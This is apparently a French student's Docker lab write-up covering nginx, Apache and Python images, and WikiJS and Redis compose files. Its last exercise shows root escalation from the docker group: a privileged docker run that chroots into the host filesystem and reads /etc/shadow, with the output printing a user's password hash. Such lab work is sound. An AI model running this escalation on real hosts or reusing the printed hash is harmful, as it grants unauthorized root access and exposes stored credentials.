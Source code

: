 # TP1

🌞 **Installer Docker sur la machine**

- en suivant [la doc officielle](https://docs.docker.com/engine/install/)
- démarrer le service `docker` avec une commande `systemctl`
- ajouter votre utilisateur au groupe `docker`
  - cela permet d'utiliser Docker sans avoir besoin de l'identité de `root`
  - avec la commande : `sudo usermod -aG docker $(whoami)`
  - déconnectez-vous puis relancez une session pour que le changement prenne effet

**Commande docker run**s
```
sudo docker run --name web -d -v $(pwd)/web/index.html:/usr/share/nginx/html/index.html -v $(pwd)/conf/tp1.conf:/etc/nginx/conf.d/tp1.conf -p 8080:80 snginx
```

**Conf file**
```
server {
  # on définit le port où NGINX écoute dans le conteneur
  listen 8080;

  # on définit le chemin vers la racine web
  # dans ce dossier doit se trouver un fichier index.html
  root /usr/share/nginx/html;
}
```

🌞 **Construire votre propre image**

- image de base (celle que vous voulez : debian, alpine, ubuntu, etc.)
  - une image du Docker Hub
  - qui ne porte aucune application par défaut
- vous ajouterez
  - mise à jour du système
  - installation de Apache (pour les systèmes debian, le serveur Web apache s'appelle `apache2` et non pas `httpd` comme sur Rocky)
  - page d'accueil Apache HTML personnalisée

**dockerfile**
```
FROM ubuntu

RUN apt-get update && apt-get upgrade -y

RUN apt install -y apache2

CMD ["apache2ctl", "-D", "FOREGROUND"]
```

On build l'image avec `sudo docker build . -t dockerfile`

Et on run avec `sudo docker run -d -p 8888:80 --name my_own_ubuntu -v /home/antna/travail/index.html:/var/www/html/index.html dockerfile`

🌞 **Installez un WikiJS** en utilisant Docker

- WikiJS a besoin d'une base de données pour fonctionner
- il faudra donc deux conteneurs : un pour WikiJS et un pour la base de données
- référez-vous à la doc officielle de WikiJS, c'est tout guidé

**File docker-compose.yml**

```
version: "3"
services:

  db:
    image: postgres:15-alpine
    environment:
      POSTGRES_DB: wiki
      POSTGRES_PASSWORD: wikijsrocks
      POSTGRES_USER: wikijs
    logging:
      driver: "none"
    restart: unless-stopped
    volumes:
      - db-data:/var/lib/postgresql/data

  wiki:
    image: ghcr.io/requarks/wiki:2
    depends_on:
      - db
    environment:
      DB_TYPE: postgres
      DB_HOST: db
      DB_PORT: 5432
      DB_USER: wikijs
      DB_PASS: wikijsrocks
      DB_NAME: wiki
    restart: unless-stopped
    ports:
      - "80:3000"

volumes:
  db-data:
  ```

  ![Wkijs create home page](/wikijs.png "Titre de l'image").


🌞 **Vous devez :**

- construire une image qui
  - contient `python3`
  - contient l'application et ses dépendances
  - lance l'application au démarrage du conteneur

```
FROM ubuntu

RUN apt update -y

RUN apt-get install -y python3 git python3-pip

RUN git clone https://github.com/antmrlt/python-app.git

WORKDIR /python-app

RUN pip3 install -r requirements

EXPOSE 8888

RUN chmod +x app.py

CMD ["python3", "app.py"]
```
On build grace à `docker build . -t pythonapp`

- écrire un `docker-compose.yml`
  - lance l'application
  - lance un Redis
    - utilise l'image de *library*
    - a un alias `db`

```
version: '3'

services:
  python-app:
    build:
      context: .
    image: pythonapp
    container_name: python-app-container
    restart: always
    ports:
      - "8888:8888"
    depends_on:
      - redis
    networks:
      - my-network

  redis:
    image: "redis:latest"
    container_name: redis-container
    restart: always
    ports:
      - "6379:6379"
    networks:
      - my-network

networks:
  my-network:
    driver: bridge
```

🌞 Prouvez que vous pouvez devenir root
- en étant membre du groupe docker

- sans taper aucune commande sudo ou su ou ce genre de choses
normalement, une seule commande docker run suffit
pour prouver que vous êtes root, plein de moyens possibles
  - par exemple un cat /etc/shadow qui contient les hash des mots de passe de la machine hôte

`docker run -it --privileged --net host --ipc=host -v /:/host alpine chroot /host`

```
root@antnaserv:/# cat /etc/shadow
root:*:19579:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
...
fwupd-refresh:*:19579:0:99999:7:::
usbmux:*:19675:0:99999:7:::
antna:$6$rLoAV.QR1JtPPWax$qMiioqI8AUgOeZ/MMM7UKtxlJj4TgPyn/NAYN5/W3nGRLf1IVYbGkAn4kfLEVd6ra/icAXxDjiOUsvNnzLddU/:19675:0:99999:7:::
lxd:!:19675::::::
sshd:*:19676:0:99999:7:::
```